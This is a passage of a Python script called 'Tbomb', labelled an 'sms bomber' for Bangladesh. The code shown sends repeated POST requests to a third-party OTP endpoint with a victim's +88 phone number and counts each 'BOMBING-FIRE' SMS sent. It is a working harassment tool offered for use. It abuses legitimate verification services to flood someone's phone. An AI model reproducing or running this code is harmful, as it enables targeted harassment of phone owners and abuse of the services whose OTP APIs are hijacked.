 # Tbomb
This is sms bomber
			else:
				url=url = "https://0yzk2chfm3.execute-api.ap-southeast-1.amazonaws.com/prod/user/otp"
				headers=CaseInsensitiveDict()
				headers["Content-Type"]="application/json"
				datagp="""{\"mobile_number\":\"+88"""+number+"""\"}"""
				r=requests.post(url, headers=headers, data=datagp)
				
					
					
			if ammount2==1:
				print(cyan+"\n\t  ★★BOMBING-FIRE★★==>   "+green+"[✓] 1st SMS Sent.")
			elif ammount2==2:
				print(cyan+"\n\t  ★★BOMBING-FIRE★★==>   "+green+"[✓] 2nd SMS Sent.")
			elif ammount2==3:
				print(cyan+"\n\t  ★★BOMBING-FIRE★★==>   "+green+"[✓] 3rd SMS Sent.")
			else:
				print(cyan+"\n\t  ★★BOMBING-FIRE★★==>   "+green+"[✓] "+str(ammount2)+"th SMS Sent.")
			time.sleep(1)
			totalsent+=1
			ammount2+=1
		except:
			if ammount2==1:
				print(cyan+"\n\t  ★★Problem★★==>   "+red+"[×] 1st SMS Not Sent.")
			elif ammount2==2:
				print(cyan+"\n\t  ★★Problem★★==>   "+red+"[×] 2nd SMS Not Sent.")
			elif ammount2==3:
				print(cyan+"\n\t  ★★Problem★★==>   "+red+"[×] 3rd SMS Not Sent.")
			else:
				print(cyan+"\n\t  ★★Problem★★==>   "+red+"[×] "+str(ammount2)+"th SMS Not Sent.")
				time.sleep(10)
				ammount2+=1
								
							
	totalhit=ammount2-1
	totalnotsent=totalhit-totalsent
	print(cyan+"\n\n\t\t[•] Total Hits : "+yellow+str(totalhit))
	print(green+"\n\t\t[✓] Total Sent : "+yellow+str(totalsent))
	print(red+"\n\t\t[×] Total Not Sent : "+yellow+str(totalnotsent)+"\n")
	lastt=str(input(cyan+"\n\n\t\t  [✓] All Done!\n\t [•] Now Press Enter Key To Continue\n"))
	os.system('clear')
	notice=""
	text=green+"\n\n\t\t★★★Nahid Alam | SMS Tools★★★   \n" 
	header()
	opt()

		
elif opt2=="2":
	os.system("python3 SwaponTbomb.py")
else:
	text=cyan+"\t\tTOOL BY : Swapon Vau"+green+"\n\n\t\t★★ Nahid Alam | Bangladesh SMS Bomber ★★   \n" 
	notice=red+"\n\t\t[×] Wrong Value Entered"
	os.system('clear')
	header()
	opt()
	continue
